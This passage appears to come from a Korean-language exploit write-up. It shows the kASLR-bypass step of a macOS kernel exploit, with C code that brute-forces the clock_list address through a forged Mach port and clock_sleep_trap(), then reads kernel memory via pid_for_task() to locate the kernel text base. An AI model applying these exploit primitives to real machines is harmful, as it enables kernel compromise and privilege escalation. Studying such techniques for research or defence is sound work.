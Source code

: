 <br>

#### (4) 커널 주소 획득

macOS에서는 메모리 보호기법으로 커널 주소를 랜덤화하는 kASLR을 사용한다. 따라서, 포트 주소를 가지고 있으며 임의조작이 가능한 경우 시스템 트랩인 clock_sleep_trap()을 사용해 커널 내 동적으로 로드되는 clock_list를 구할 수 있게 된다.

사용된 코드는 아래와 같다:

{% highlight c %}
uint64_t get_clock_list_addr(uint64_t fake_port, mach_port_t* manipulated_port){
	for(uint64_t guess_clock_addr = 0xffffff8000200000; guess_clock_addr < 0xffffff80F0200000; guess_clock_addr++){
		*(uint64_t *)(fake_port + TASK_GAP_IN_IPC_OBJ) = guess_clock_addr; // Traverse address
		*(uint64_t *)(fake_port + 0xa0) = 0xff;

		if(clock_sleep_trap(manipulated_port, 0, 0, 0, 0) == KERN_SUCCESS){
			printf("[+] found clock_list addr : %llx\n", guess_clock_addr);
			return (guess_clock_addr);
		}
	}
	printf("[-] Find clock_list addr failed.\n");
	exit(1);
}
{% endhighlight %}

오버플로우 시킨 데이터는 현재 유저 영역에서 생성한 포트를 가리키고 있으며, 이것은 원래 ipc_object를 가리키던 영역이다. 따라서, 해당 구조체의 task를 커널의 텍스트 베이스부터 설정한 후 클락 슬립 트랩을 발생시키고 성공한 경우에는 클락 리스트를 포인팅 하고있다는 의미가 된다.

위의 과정을 통해 커널 내 주소를 획득 했으니 간단한 커널 헤더(0xfeedfacf) 비교를 통해 주소를 획득할 수 있다.

사용된 코드는 아래와 같다:

{% highlight c %}
uint64_t get_kernel_addr(uint64_t fake_port, void* fake_task, uint64_t clock_list_addr, mach_port_t* manipulated_port){
	*(uint64_t*) (fake_port + TASK_GAP_IN_IPC_OBJ) = fake_task;
    *(uint64_t*) (fake_port + 0xa0) = 0xff; 
    *(uint64_t*) (fake_task + 0x10) = 0x01;  

    clock_list_addr &= ~(0x3FFF);

    for(uint64_t current_addr = clock_list_addr; current_addr > 0xffffff8000200000; current_addr-=0x4000) {
    	int32_t kernel_data = 0;
    	*(uint64_t*) (fake_task + TASK_INFO_GAP) = current_addr - 0x10;
    	pid_for_task(manipulated_port, &kernel_data);
    	if (kernel_data == 0xfeedfacf) {
    		printf("[+] Found kernel_text addr : %llx\n", current_addr);
    		return current_addr;
    	}
    }
}
{% endhighlight %}

커널 주소는 0x4000 정렬되므로 클락 리스트의 하위 14비트는 제거 해준 뒤, 정렬 크기만큼 감소시키며 비교해주면 된다. 이 때, pid_for_task()를 사용하는데 이는 유저레벨에서 커널 메모리를 읽기 위해 사용된다. 일반적으로 유저 모드에서 커널 메모리를 읽을수 없기 때문에, 가지고 있는 포트를 사용하여 pid_for_task()를 호출해 커널 메모리를 읽는 트릭이다.
